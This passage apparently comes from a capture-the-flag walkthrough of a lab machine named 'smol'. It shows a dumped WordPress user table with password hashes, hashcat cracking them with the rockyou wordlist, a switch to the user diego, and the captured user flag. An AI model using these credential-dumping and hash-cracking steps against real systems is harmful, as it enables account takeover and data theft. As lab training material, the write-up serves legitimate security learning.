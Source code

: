 ```bash
|  4 | gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 | gege          | gege@smol.thm      | http://smol.thm     | 2023-08-17 20:18:50 |                                               |           0 | gege                   |
|  5 | diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 | diego         | diego@local        | http://smol.thm     | 2023-08-17 20:19:15 |                                               |           0 | diego                  |
|  6 | xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 | xavi          | xavi@smol.thm      | http://smol.thm     | 2023-08-17 20:20:01 |                                               |           0 | xavi                   |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+-----------------------------------------------+-------------+------------------------+
6 rows in set (0.00 sec)
```

You can see that we got password hashes:


```text
admin:$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX.
think:$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/
gege:$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
xavi:$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1
```

We can use hashcat to crack these hashes.



```bash
❯ hashcat -m 400 -a 0 hashes/hash.txt rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 CUDA 12.9.90) - Platform #1 [NVIDIA Corporation]
=======================================================================

Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 0 secs

$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1:***************     
```

And after 10 seconds I get password for diego.


Lets log into diego.

```bash
www-data@smol:/tmp$ su diego
Password: 
diego@smol:/tmp$ ls
f  poc.sh  tmux-33
diego@smol:/tmp$ cd
diego@smol:~$ ls
user.txt
diego@smol:~$ 
```

```bash
diego@smol:~$ cat user.txt 
45edaec653ff9ee06236b7ce72b86963
```
